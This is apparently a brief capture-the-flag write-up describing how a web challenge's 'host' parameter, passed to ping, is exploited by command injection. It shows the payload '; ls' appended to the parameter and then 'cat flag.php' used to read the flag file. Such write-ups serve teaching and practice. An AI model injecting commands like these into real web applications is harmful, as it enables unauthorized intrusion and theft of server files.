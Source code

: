 - Once we navigate to the website, all we see is `command executed: ping -c 2` displayed on the main page.    

- However, in the address bar, we can see that the `host` parameter is visible.  

```
http://34.159.31.74:30043/index.php?host=127.0.0.1
```

- Considering the name of the CTF, I tried replacing the localhost with the `ls` command.  

- It gave no results, and I have tried using `; ls`.  

```
flag.php
index.php

Command executed: ping -c 2 ;ls
```

- We see that the webpage is vulnerable to command injection.  
- Replace the `ls` payload with `cat flag.php` to retrieve the flag.  

FLAG: CTF{C0mm4{REDACTED}4sy}

<sub>NOTE: the flag is visible only in the page source </sub>